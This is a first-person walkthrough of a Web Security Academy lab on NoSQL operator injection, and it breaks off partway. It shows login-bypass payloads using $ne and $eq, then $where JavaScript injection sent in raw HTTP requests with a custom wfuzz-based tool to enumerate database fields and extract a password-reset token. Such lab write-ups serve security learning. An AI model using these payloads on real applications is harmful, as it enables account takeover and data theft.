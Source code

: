 # Exploiting NoSQL operator injection to extract unknown fields
First, I tried to find NoSQL injection on the page. I did so by injecting the body when trying to login to this:
```json
{
    "username": {
        "$eq": "carlos"
    },
    "password": {
        "$ne": "invalid"
    }
}
```
This got the server to respond with `Account locked: please reset your password`. I then enumeated some more to find that we could use `$where` operator like this in the application:
```json
    "username": {
        "$eq": "carlos"
    },
    "password": {
        "$ne": "invalid"
    },
    "$where": "1"
```
I then wanted to see what fields the database had. Since I don't have Burp Professional, I made a tool which could help me achieve this. The tool can be [found here](https://github.com/theballmarcus/theballmarcus-payloads/blob/main/tools/burp_to_wfuzz).
I made a request file like this:
```
POST /login HTTP/2
Host: 0a2900b204dd058d823f028c003700ba.web-security-academy.net
Cookie: session=OBZlVeVvDzK4TZEgZlXHAbFUsH5BAznS
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2900b204dd058d823f028c003700ba.web-security-academy.net/login
Content-Type: application/json
Content-Length: 102
Origin: https://0a2900b204dd058d823f028c003700ba.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"carlos","password":{
"$ne":"invalid"},
"$where": "Object.keys(this)[FIZZR].match('^FUZZ.*')"
}
```
I then reset carlos password on the page and then I ran my tool: `burp_to_wfuzz run r.txt --https --guess-word`
This got me 
```
Guessed results:
0: _id
1: username
2: password
3: email
4: changePwd
```
Next up, I wanted to see what was inside his changePwd field. I therefore made another request file:
```
POST /login HTTP/2
Host: 0a2900b204dd058d823f028c003700ba.web-security-academy.net
Cookie: session=OBZlVeVvDzK4TZEgZlXHAbFUsH5BAznS
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2900b204dd058d823f028c003700ba.web-security-academy.net/login
Content-Type: application/json
Content-Length: 102
Origin: https://0a2900b204dd058d823f028c003700ba.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"username":"carlos","password":{
"$ne":"invalid"},
"$where": "this.changePwd.match('^FUZZ')"
}
```
I ran my tool: `burp_to_wfuzz run r2.txt --https --guess-word`
And it returned `Found 'd' -> ceb3f80200f1331d`
Then I needed to find the reset password url.